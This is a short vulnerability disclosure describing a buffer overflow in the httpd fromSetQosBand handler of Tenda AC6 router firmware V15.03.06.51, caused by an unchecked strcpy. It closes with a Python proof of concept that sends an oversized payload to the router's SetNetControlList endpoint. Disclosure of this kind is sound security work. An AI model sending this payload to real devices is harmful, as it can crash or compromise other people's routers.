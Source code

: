 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/fromSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10U_V1/9.png)

get value from list ,send to setQosMiblist

![](../Tenda_AC10U_V1/10.png)

p eaqul list, if list contains '\n', get into if ,finally call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetNetControlList"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'setQosMiblist': payload})
``` 
